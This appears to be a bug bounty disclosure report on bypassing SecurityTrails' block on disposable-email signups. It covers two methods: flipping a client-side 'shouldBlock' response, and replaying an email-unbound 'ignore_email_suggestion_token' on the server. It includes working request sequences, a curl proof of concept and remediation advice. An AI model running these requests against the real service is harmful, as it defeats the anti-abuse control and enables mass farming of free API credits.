 
## Target
 
[SecurityTrails](https://securitytrails.com) (A Recorded Future Company), tested under the **Recorded Future Public Managed Bug Bounty Engagement** on Bugcrowd.
 
SecurityTrails is an internet data intelligence platform focused on DNS, domain, and IP infrastructure. It indexes over 5 billion DNS records daily and provides 10+ years of historical DNS data (A, AAAA, MX, NS, SOA, TXT), subdomain discovery, and domain association mapping, understanding which domains, companies, or individuals are connected to one another. It's commonly used by security teams, OSINT researchers, and pentesters during reconnaissance, for example to map an organization's full external attack surface or to pivot from a known malicious domain to an entire related infrastructure.
 
Access is offered on a freemium model: every new signup receives a free API key with a quota of 50 queries/credits, with paid tiers (e.g. Professional at $500/month for 20,000 queries) for higher volume. Because that free quota has real value, SecurityTrails blocks signups made with disposable/temporary email addresses, to stop bots from mass-registering accounts purely to farm free API credits. That anti-abuse control is exactly what this report bypasses.

[

## Summary
 
SecurityTrails blocks sign-ups made with disposable/temporary email providers to prevent abuse of the free API key each new account receives (50 queries / 50 credits). This control can be bypassed in **two different ways**: a client-side response manipulation, and a more severe server-side validation flaw that requires no response tampering at all.
 
- **Method 1: Response manipulation:** flipping a boolean in an intercepted response (`shouldBlock`) lets a disposable email pass the pre-check entirely.
- **Method 2: Server-side validation bypass:** replaying a token the server itself issues on a *rejected* signup, together with a *different* disposable email, results in a clean account creation — no client-side manipulation involved, a genuine server logic flaw.
Both paths end with a fully registered and logged-in account tied to a disposable email address, defeating the anti-abuse control that gates the free API key allocation.
 
## Method 1: Response Manipulation (shouldBlock)
 
When a user starts the sign-up flow, the frontend fires a pre-check request to validate the email before allowing account creation:



 
```
POST https://securitytrails.com/api/auth/user-check-validation
Content-Type: application/json
 
{"email":"jolodet663@digeros.com"}
```
 
For a disposable email provider, the server responds:

```json
{
  "success": true,
  "shouldBlock": true,
  "message": "",
  "isDisposable": true
}
```

 
The UI reads `shouldBlock` and shows *"This email address cannot be used for signup."*, but this check is enforced **client-side**, based purely on the value returned in the response. Intercepting the response in Burp Suite and flipping the field is enough to defeat it:
 
```json
{
  "success": true,
  "shouldBlock": false,
  "message": "",
  "isDisposable": true
}
```


 
With `shouldBlock` set to `false`, the frontend proceeds to the next step and fires a second request:



```
POST https://securitytrails.com/app/api/vercel/stripe/valid_user_creation
Content-Type: application/json
 
{
  "password": "Tester123$!",
  "email": "jolodet663@digeros.com",
  "terms_of_service": true
}
```


 
The server responds:
 
```json
{ "can_create": true }
```


 
From here, the final account creation request goes through normally:
 
```
POST https://securitytrails.com/api/public/app/api/vercel/console/account/create
Content-Type: application/json
 
{
  "user": {
    "company_name": "llm",
    "email": "jolodet663@digeros.com",
    "name": "AccountA",
    "password": "Tester123$!",
    "terms_of_service": true
  }
}
```
 
```json
{ "message": "User successfully registered and logged in" }
```




 
An account tied to a disposable email provider is now fully active, with its free API key and quota.




 
## Method 2: Server-Side Validation Bypass (no response manipulation)
 
Submitting the account creation request directly with a disposable email, **without** touching Method 1's pre-check at all, gets correctly rejected server-side:
 
```
POST /api/public/app/api/vercel/console/account/create HTTP/2
Content-Type: application/json
 
{"user":{"company_name":"llm","email":"fostovuk@fosil.pro","name":"escalation","password":"Test123$!","terms_of_service":true}}
```
 
```json
HTTP/2 400 Bad Request
 
{
  "message": "Please check the form for errors",
  "errors": {
    "email": [
      "Only business email addresses are allowed",
      "Only business email addresses are allowed"
    ]
  },
  "ignore_email_suggestion_token": "SFMyNTY.g2gDbQAAABJmb3N0b3Z1a0Bmb3NpbC5wcm9uBgARZfhbngFiAAFRgA.JJ_C7Bz5hsb_eUlFMsqqlRV8sqDb5UqyLKVpXIS7R84",
  "record_in_analytics": true
}
```


 
The rejection correctly fires, but the response hands back an `ignore_email_suggestion_token`. The intent is presumably for a *legitimate* flow where a user is warned their email looks mistyped or disposable, and can confirm "yes, I really want to use this one." However, the server does **not** bind that token to the specific email it was issued for.
 
Replaying the token in a brand-new registration request, with a **completely different** disposable email, succeeds:
 
```bash
curl -s -X POST 'https://securitytrails.com/api/public/app/api/vercel/console/account/create' \
  -H 'Content-Type: application/json' \
  -H 'Origin: https://securitytrails.com' \
  -H 'Referer: https://securitytrails.com/app/signup' \
  -H 'Csrf-Token: UH4f6FBQ-P3Qz1wRqKZ2dO012QUB0w8b-a00' \
  -b '<cookies>' \
  -d '{"user":{"company_name":"llm","email":"mapoban682@okcpress.com","name":"escalation","password":"Luisjuan2377","terms_of_service":true},"ignore_email_suggestion_token":"SFMyNTY.g2gDbQAAABJmb3N0b3Z1a0Bmb3NpbC5wcm9uBgARZfhbngFiAAFRgA.JJ_C7Bz5hsb_eUlFMsqqlRV8sqDb5UqyLKVpXIS7R84"}' | jq
```
 
```json
{ "message": "User successfully registered and logged in" }
```


 
The token issued for `fostovuk@fosil.pro` successfully unlocked registration for `mapoban682@okcpress.com`, a different disposable address, in a single clean request, no interception or manipulation of any server response, no boolean flipping. This is a genuine **server-side logic flaw**: the token is checked for presence/validity, but never for the email it was supposed to apply to.
 
## Impact
 
- Full bypass of the disposable/temporary email block on account registration.
- Each bypassed registration grants a working API key with a quota of 50 queries/credits, enabling scripted, large-scale creation of disposable accounts to farm free API quota.
- Method 2 in particular requires no client-side tampering with server trust decisions, the server itself hands over everything needed to complete the bypass, making it trivially scriptable (see PoC `curl` commands above, run back-to-back for two different disposable providers).
## Remediation
 
1. Enforce the disposable-email check **server-side**, at the final account-creation endpoint, not only at the pre-check step, never trust a client-asserted `shouldBlock`/`can_create` value from a prior step.
2. Bind `ignore_email_suggestion_token` cryptographically to the specific email address (and ideally the session) it was issued for, and reject it if the email in the final request differs.
3. Treat the token as single-use and short-lived, invalidating it after one registration attempt regardless of outcome.
4. Re-validate the email against the disposable-provider list at the point of persistence, as a defense-in-depth measure independent of any token or prior response.
## Disclosure & Bounty


- **Program:** Recorded Future Public Managed Bug Bounty Engagement (Bugcrowd)
- **Target:** SecurityTrails
- **Submitted:** 27 Mar 2026
- **Priority:** P4
- **Reward:** $250 (5 points)
- **Status:** Submitted, in progress
